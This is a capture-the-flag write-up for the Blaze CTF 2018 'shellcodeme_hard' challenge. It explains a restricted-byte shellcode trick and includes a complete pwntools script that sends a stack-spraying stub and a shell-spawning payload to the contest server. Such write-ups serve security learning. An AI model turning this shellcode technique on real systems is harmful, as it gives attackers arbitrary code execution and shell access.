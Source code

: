 [](ctf=blaze-2018)
[](type=exploit)
[](tags=game)
[](techniques=shellcode)

# shellcodeme_hard (pwn-420)

```
nc shellcodeme.420blaze.in 4200

Author : aweinstock
```

Solving the easy version of this chall took me some time. However once that was done, I used the same technique to pwn this one.

In this hard version the stack and registers were populated from /dev/urandom so that we don't have references to pivot through.
This made me do the chall in 6 unique bytes.

```python
from pwn import *

context(arch='amd64', os='linux', log_level='info')

payload = asm(("push 0x40000000; "*0x100)+("push rbx; "*36)+"push 0x400000; pop rbx; "+("inc ebx; "*0x86d)+"push rbx; ret;")
payload2 = asm(shellcraft.amd64.linux.sh())

s = remote("shellcodeme.420blaze.in", 4200)

s.sendline(payload)
s.sendline(payload2)

s.interactive()
s.close()

```

 The random values from the context seldom had 0s. So I sprayed the stack with a register to make `seen` for every character > 0.
 Then using the technique from [here](../../shellcode/sudhackar/README.md) to gain code execution.
